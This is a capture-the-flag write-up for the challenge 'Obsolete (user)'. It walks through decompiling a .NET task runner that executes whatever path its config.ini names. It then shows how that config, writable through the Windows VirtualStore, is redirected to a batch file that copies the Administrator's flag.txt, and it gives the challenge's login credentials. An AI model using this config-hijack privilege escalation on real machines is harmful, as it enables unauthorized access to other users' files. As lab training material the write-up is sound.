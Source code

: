 # Obsolete (user)

Writeup by erlend in team mneF00

## Challenge Description

A venture into the past. Login using RDP with the following credentials:

neo / F0ll0w_Th3_Wh173_R4bb17

The flag is in a flag.txt file on the desktop of the Administrator user.

Challenge VM: \<your instance ip here>

This is a VM, so it might take some while before the system and applications actually boot.

You need to use your team EPT Box™ to connect to this challenge. Check your team page.

# Solution

You connect to the VM as per instructions and take a look around. You see that the Administrator user is currently logged on:

![](images/taskmanager.png)

So, you are not alone. Unfortunately, you cannot see what processes the Administrator is currently running. Looking
around even more, you will find some _obsolete_ programs lying in `c:\program files (x86)\`

![](images/obsolete_programs.png)

Namely, ChronoRunnerXP and FunFacts95.

FunFacts95 is not interesting, but you can use it to confirm that the ChronoRunnerXP is actually running by watching its log files.


## ChronoRunnerXP

In the ChronoRunnerXP folder, there are two files. `config.ini` and `ChronoRunnerXP.exe`. I copied these files over to my Flare VM for reversing.

The config.ini contains the following configuration:
```ini
[Settings]
ExecutePath=C:\Program Files (x86)\FunFacts95\FunFacts95.exe
Interval=60000
```

`ChronoRunnerXP` is a DotNet application, which makes it easy to decompile. I used dnSpy as I had it lying on my FlareVM.
You can find the decompiled program [here](ChronoRunnerXP.cs).

```cs
private static void Main(string[] args)
{
    if (!Program.IsAdmin())
    {
        Console.WriteLine("Error: This application requires a user with administrative privileges.");
        Environment.Exit(1);
    }
    Console.CancelKeyPress += delegate(object sender, ConsoleCancelEventArgs eventArgs)
    {
        Console.WriteLine("Shutting down...");
        Timer timer = Program._timer;
        if (timer != null)
        {
            timer.Dispose();
        }
        Environment.Exit(0);
    };
    Program.EnsureConfigFileExists();
    Program.interval = Program.ReadIntervalFromConfig();
    Program._timer = new Timer(new TimerCallback(Program.OnTimerElapsed), null, Program.interval, -1);
    Console.WriteLine("ChronoRunner XP is running. Press Ctrl+C to exit.");
    for (;;)
    {
        Thread.Sleep(-1);
    }
}
```
When ChronoRunnerXP starts, it will do three things.
* Check if current user is Admin, exit otherwise.
* Read the interval from the configuration file (how often the program referenced in `config.ini` should execute)
* Start a timer that will execute the function `OnTimerElapsed` at the specified interval.

The `OnTimerElapsed` function will execute the task, read and update the interval.
```cs
private static void OnTimerElapsed(object state)
{
    Program.ReadAndExecuteTask();
    Program.interval = Program.ReadIntervalFromConfig();
    Program._timer.Change(Program.interval, -1);
}
```

 
The `ReadAndExecuteTask` will call `EnsureConfigFileExists`.

```cs
private static void ReadAndExecuteTask()
{
    Program.EnsureConfigFileExists();
    try
    {
        string[] array = File.ReadAllLines(Program.configFilePath);
        string text = string.Empty;
        foreach (string text2 in array)
        {
            if (text2.StartsWith("ExecutePath="))
            {
                text = text2.Substring("ExecutePath=".Length);
                break;
            }
        }
        if (!string.IsNullOrEmpty(text) && File.Exists(text))
        {
            Program.ExecuteProgram(text);
        }
    }
    catch (Exception)
    {
    }
}
```

And finally, the `EnsureConfigFileExists` function:

```cs
private static void EnsureConfigFileExists()
{
    if (!File.Exists(Program.configFilePath))
    {
        Directory.CreateDirectory(Path.GetDirectoryName(Program.configFilePath));
        string text = "[Settings]\nExecutePath=C:\\Program Files (x86)\\FunFacts95\\FunFacts95.exe\nInterval=60000\n";
        File.WriteAllText(Program.configFilePath, text);
    }
    FileSecurity accessControl = File.GetAccessControl(Program.configFilePath);
    accessControl.AddAccessRule(new FileSystemAccessRule("Everyone", FileSystemRights.FullControl, AccessControlType.Allow));
    File.SetAccessControl(Program.configFilePath, accessControl);
}
```

Yes! This is what we are looking for. The `EnsureConfigFileExists` will make sure that the `config.ini` file exists, and
then it will always modify permissions to `FullControl` for `Everyone`. This should include our user `neo`.

But! I do not have access to modify `config.ini`. Here I expect to so `Everyone` under "Group or user names" with `Full Control`permissions.
The expected permissions are missing!

![](images/config_ini_permissions.png)

Confused, I ran the ChronoRunnerXP locally and watched it using process monitor. Is there more that meets eye?
Process monitor is VERY verbose, so I set an initial filter to `Process Name contains ChronoRunnerXP.exe`

I see that it read the `config.ini` file, and later execute `FunFacts95.exe` as specified in the `config.ini` file.
![](images/procmon.png)

I also noted that it tries to read the file from a VirtualStore path in my user's AppData folder.
A quick google search explained to me that this would happen if a program is not running as administrator and tries to write to `C:\program files (x86)` directory.

![https://answers.microsoft.com/en-us/windows/forum/all/please-explain-virtualstore-for-non-experts/d8912f80-b275-48d7-9ff3-9e9878954227](images/virtualstore.png)

Because I ran the program on my computer as user `user`, I disregarded this observation because I thought this was because I executed it locally. The Administrator user on the challenge VM would not need no VirtualStore, right?

At this point, I concluded that I would need to find some way to get the operating system to delete the `c:\program files (x86)\ChronoRunnerXP\config.ini` file so that it could be recreated with the correct permissions.

I moved on to other challenges...

## Hint dropped

At around 18:30, EPT Crew decided to drop a hint because noone had solved this challenge yet.
The hint was:

```Are you really sure that things are written and read from where you think?```

![](images/obsolete_hint.png)

This clicked instantly. The `config.ini` file had to be read from `C:\Users\Administrator\AppData\Local\VirtualStore\Program Files (x86)\ChronoRunnerXP\config.ini`
Windows is funny when it comes to file permissions. Even though you do not have any rights to `C:\Users\Administrators\*`, you can still access the specific files you have access to.

To open the file, I ran the command `notepad C:\Users\Administrator\AppData\Local\VirtualStore\Program Files (x86)\ChronoRunnerXP\config.ini`
And modified it to:
```ini
[Settings]
ExecutePath=C:\evil\evil.bat
Interval=5000
```

Then I created a file named `c:\evil\evil.bat`:

```bat
@echo off
cp c:\user\administrator\desktop\flag.txt c:\evil\
```

After waiting for less than I minute, a flag appears!

![EPT{D1d_y0u_und3rst4nd_why_1t_u535_th3_v1rtu4l_5t0r3?}](images/flag.png)

My answer to the question in the flag is  ... no. If you know, please let me know :)
